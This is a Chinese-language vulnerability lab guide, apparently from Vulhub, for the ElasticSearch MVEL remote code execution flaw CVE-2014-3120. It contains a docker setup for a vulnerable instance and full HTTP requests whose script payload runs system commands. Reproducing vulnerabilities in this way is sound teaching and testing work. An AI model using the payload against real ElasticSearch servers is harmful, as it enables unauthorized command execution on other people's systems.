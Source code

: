 # ElasticSearch 远程代码执行漏洞（CVE-2014-3120）

ElasticSearch 是一个分布式的RESTful搜索和分析引擎。

ElasticSearch 1.2版本之前默认启用了动态脚本功能，攻击者可以通过`_search`请求的`source`参数执行任意MVEL表达式和Java代码。MVEL是一种基于Java的动态脚本语言，下面是一个使用MVEL执行系统命令的示例代码：

```java
import java.io.*;
new java.util.Scanner(Runtime.getRuntime().exec("id").getInputStream()).useDelimiter("\\A").next();
```

参考链接：

- <https://bou.ke/blog/elasticsearch-rce/>
- <https://www.exploit-db.com/exploits/33370>

## 漏洞环境

执行以下命令启动一个1.1.1版本的ElasticSearch服务器：

```
docker compose up -d
```

环境启动后，可以通过`http://your-ip:9200`访问ElasticSearch API。

## 漏洞复现

此漏洞利用需要索引中至少存在一个文档。首先，创建一个文档：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "vulhub"
}
```

然后，发送包含恶意MVEL脚本的请求来执行任意命令：

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```

命令执行结果将在响应中返回：

![](1.png)
